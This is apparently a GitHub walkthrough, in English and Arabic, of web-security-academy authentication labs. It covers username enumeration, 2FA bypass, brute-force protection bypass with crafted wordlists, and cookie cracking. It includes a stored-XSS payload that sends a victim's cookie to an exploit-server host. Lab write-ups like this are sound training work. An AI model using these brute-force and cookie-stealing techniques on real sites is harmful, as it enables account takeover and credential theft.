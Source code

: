 # Authentication vulnerabilities



<details>
  <summary>Lab: Username enumeration via different responses</summary>

> ### try invalid usernaem ``admin``

<img width="1030" height="436" alt="image" src="https://github.com/user-attachments/assets/ae7dc0ef-29c0-4040-95a1-7011a3012721" />

> ### try to bruteforce username and match ``Invalid username``

<img width="1604" height="553" alt="image" src="https://github.com/user-attachments/assets/25abcbc9-5139-4067-b66f-27aa66b63cb8" />

<img width="1277" height="469" alt="image" src="https://github.com/user-attachments/assets/2d856d21-4f13-420d-a978-5b3fd040ab66" />

### so now username is 

```
user
```

---

> ### now bruteforce the password:

<img width="1016" height="358" alt="image" src="https://github.com/user-attachments/assets/65292c04-6634-4f0a-befa-d58f1a5474c4" />

so passowrd is :

```
iloveyou
```

<img width="1341" height="617" alt="image" src="https://github.com/user-attachments/assets/77519529-471c-40f0-9f0a-7c447c705326" />





  
</details>






<details>
  <summary>Lab: 2FA simple bypass</summary>


<img width="1105" height="319" alt="image" src="https://github.com/user-attachments/assets/7fbed2c2-8e4d-4fd5-bbc8-7d820821a746" />


  
</details>




<details>
  <summary>Lab: Password reset broken logic</summary>


- > click reset password and check email box you will found link click on it if you try to remove token error will apper
  >
  > write new password and intercept the request now you can remove token and change user to carlos 



  
</details>





<details>
  <summary>Lab: Username enumeration via subtly different responses</summary>

```
✅ 4.Username enumeration via subtly different responses
الثغرة: التطبيق بيرجع رسائل خطأ مختلفة بشكل طفيف جدًا حسب إذا كان اليوزر موجود أو مش موجود.
مثلًا:

Invalid username or password. ← لو اليوزر مش موجود.

Invalid password or password ← لو اليوزر موجود.

الرسالة شكلها شبه بعض لكن فيها فرق بسيط جدًا، والمهاجم ممكن يلاحظه.
```



  
</details>







<details>
  <summary>Lab: Username enumeration via response timing</summary>

```
✅ 5. Username enumeration via response timing
الثغرة: الاختلاف في زمن الاستجابة لما يكون اليوزر موجود.

الاستغلال: لو زمن الاستجابة أطول مع يوزر معين → غالبًا موجود (لأن الباسورد بيتشيك بعده).


```

  
</details>






<details>
  <summary>Lab: Broken brute-force protection, IP block</summary>


```
افتح Burp Suite واعمل Proxy للـ login page.

جرب تدخل بيانات غلط 3 مرات وراء بعض:

لاحظ إن بعد 3 محاولات فاشلة بيظهر block للـ IP (مثلاً رسالة error أو delay).

جرب بعد محاولتين فاشلتين تعمل login ناجح بحسابك (wiener:peter):

هتلاحظ إن العداد بيرجع للصفر وتقدر تكمل المحاولات بدون block.
```

### ``usernames``

```
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
wiener
carlos
```

### ``passwords``

```
peter
123456
peter
password
peter
12345678
peter
qwerty
peter
123456789
peter
12345
peter
1234
peter
111111
peter
1234567
peter
dragon
peter
123123
peter
baseball
peter
abc123
peter
football
peter
monkey
peter
letmein
peter
shadow
peter
master
peter
666666
peter
qwertyuiop
peter
123321
peter
mustang
peter
1234567890
peter
michael
peter
654321
peter
superman
peter
1qaz2wsx
peter
7777777
peter
121212
peter
000000
peter
qazwsx
peter
123qwe
peter
killer
peter
trustno1
peter
jordan
peter
jennifer
peter
zxcvbnm
peter
asdfgh
peter
hunter
peter
buster
peter
soccer
peter
harley
peter
batman
peter
andrew
peter
tigger
peter
sunshine
peter
iloveyou
peter
2000
peter
charlie
peter
robert
peter
thomas
peter
hockey
peter
ranger
peter
daniel
peter
starwars
peter
klaster
peter
112233
peter
george
peter
computer
peter
michelle
peter
jessica
peter
pepper
peter
1111
peter
zxcvbn
peter
555555
peter
11111111
peter
131313
peter
freedom
peter
777777
peter
pass
peter
maggie
peter
159753
peter
aaaaaa
peter
ginger
peter
princess
peter
joshua
peter
cheese
peter
amanda
peter
summer
peter
love
peter
ashley
peter
nicole
peter
chelsea
peter
biteme
peter
matthew
peter
access
peter
yankees
peter
987654321
peter
dallas
peter
austin
peter
thunder
peter
taylor
peter
matrix
peter
mobilemail
peter
mom
peter
monitor
peter
monitoring
peter
montana
peter
moon
peter
moscow

```



<img width="1676" height="794" alt="image" src="https://github.com/user-attachments/assets/9922e3be-dddc-49af-a0f1-7e6fb80bf588" />


```
carlos : daniel
```

<img width="1313" height="602" alt="image" src="https://github.com/user-attachments/assets/6ef4ebcb-564a-410c-ab9a-39c3a6ce3213" />





  
</details>








<details>
   <summary>Lab: Brute-forcing a stay-logged-in cookie</summary>


### 🎱``8 Lab: Brute-forcing a stay-logged-in cookie``

- > first login with ``wiener:peter`` with stay logged in option and inturcept the request
  >
  > ``found``
  >
  > <img width="1167" height="424" alt="image" src="https://github.com/user-attachments/assets/098dcadc-95fb-436c-ae1d-fde1290cc3a4" />
  >
  > ```
  > Cookie: session=X2AecSWQYF3pEDwqbjSuG6FYLHSV6IGq; stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw
  > ```
  >
  > as you see ``stay-logged-in`` is decoded in **``base64``** when decode it found:
  >
  > ```
  > wiener:51dc30ddc473d43a6011e9ebba6ca770
  > ```
  >
  > ``structure of cookies``
  >
  > ```
  > base64(username:MD5(password))
  > ```
  >
  > ohh so this cookie have username and passowrd hashed in ``MD5`` after decrypt it found the password **``peter``**
  >
  > **``order is important``**
  >
  > <img width="1878" height="742" alt="image" src="https://github.com/user-attachments/assets/9f556feb-f647-4080-af43-767f6e5d969c" />
  > 
  > ![image](https://github.com/user-attachments/assets/d8ed9b02-4be1-4c3d-b40b-d4e1d4d1b8d9)
  >
  > 
  > 


   
  
</details>



















<details>
  <summary>Lab: Offline password cracking</summary>


### 9 offline password cracking 

- > first login with my username and passowrd ``wiener:peter`` with stay login button 
  >
  > found in cookie that is encoded in base64
  >
  > ``base64(username:md5(password))``
  >
  > now we know that comments is vuln to xss you will steal cookie of ``carlos`` by using xss
  >
  > in comment put
  >
  > ```
  > <script>document.location='https://exploit-0a1f000d0421311d80d80c4801090020.exploit-server.net/exploit'+document.cookie</script>
  > ```
  >
  > after that go to exploit server then logs you will find cookies of carlos
  >
  > ``Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz``
  >
  > ``carlos:26323c16d5f4dabff3bb136f2460a943``
  >
  > ``carlos:onceuponatime``

  
</details>
















<details>
  <summary>Lab: Password reset poisoning via middleware</summary>


1. login with ``wiener:peter``
2. signout
3. login with ``carlos``
4. click forget passowrd

  
</details>

































<details>
  <summary>Lab: Username enumeration via account lock</summary>

<img width="1480" height="804" alt="image" src="https://github.com/user-attachments/assets/558b88cf-ae67-439c-9ca5-caac98a2280e" />

```
carlos
carlos
carlos
carlos
carlos
root
root
root
root
root
admin
admin
admin
admin
admin
....
....

```

> ### THE REAL USERNAME WILL APPEAR ERROR: **`You have made too many incorrect login attempts. Please try again in 1 minute(s).`**


> ### SO USERNAME IS **`acceso`**





<img width="1543" height="738" alt="image" src="https://github.com/user-attachments/assets/2c27e85f-9d3b-4c07-b3b6-18f92347f884" />

> ### SO PASSWORD IS **`letmein`**

```
acceso : letmein
```

<img width="1779" height="845" alt="image" src="https://github.com/user-attachments/assets/e7e2dd78-6f7b-41bd-a779-ade23d51a0a8" />


  
</details>






























----- 
















































